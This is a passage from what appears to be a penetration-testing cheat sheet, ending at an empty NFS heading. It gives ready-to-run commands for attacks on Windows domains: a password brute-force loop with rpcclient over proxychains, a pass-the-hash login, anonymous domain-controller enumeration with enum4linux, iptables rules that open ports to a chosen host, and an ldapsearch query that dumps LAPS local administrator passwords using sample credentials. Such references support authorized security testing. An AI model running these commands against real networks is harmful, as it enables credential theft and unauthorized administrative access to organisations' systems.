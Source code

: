 Password bruteforce via rpcclient
```
    for u in `cat users_sorted.txt`; do
        echo -n "[*] user: $u" && \
        proxychains rpcclient -U "domain\$u%$u" -c "getusername;quit" 10.9.8.40
    done
```

Pass the Hash Variant
```
    pth-rpcclient -U "domain\name%hash" --pw-nt-hash 10.4.128.41
```

### enum4linux 

Domain Controller Anonymous Enumeration
```
    enum4linux -A <ip> | tee <ip>-anon-enum.txt
```

### iptables

*Append rules to top of the Input filter and make persistent*
```
    /sbin/iptables -I INPUT -p tcp --dport 50050 -s <ip address> -j ACCEPT
    /sbin/iptables -I INPUT -p tcp --dport 22 -s <ip address> -j ACCEPT
    service netfilter-persistent save
    iptables -L -v
```

*Delete rule*
``` 
    iptables -D INPUT -i eth0 -p tcp --dport 443 -j ACCEPT
```

### ldapsearch

Obtain LAPS passwords for domain computers using the linux based ldapsearch tool

[Dump Laps Passwords with LDAPSearch by Rob Fuller](https://room362.com/post/2017/dump-laps-passwords-with-ldapsearch/)
``` 
    ldapsearch -x -h 192.168.80.10 -D "helpdesk" -w ASDqwe123 -b "dc=sittingduck,dc=info" "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd

    -x - Use basic authentication
    -h 192.168.80.10 - Connect to the Domain Controller for ldap
    -D "helpdesk" -w ASDqwe123 - Login as the helpdesk user, with the password ASDqwe123
    -b "dc=sittingduck,dc=info" - This loads the base LDAP object of the entire domain.
    "(ms-MCS-AdmPwd=*)" - Filter out any objects that I can’t see a value for ms-MCS-AdmPwd for. (If you have rights as that user to see even one Administrator password, this will show it.)
    ms-MCS-AdmPwd - Only show me the ms-MCS-AdmPwd object (which by default includes the object name and DN so you will still know what host it belongs to)
```

### NFS

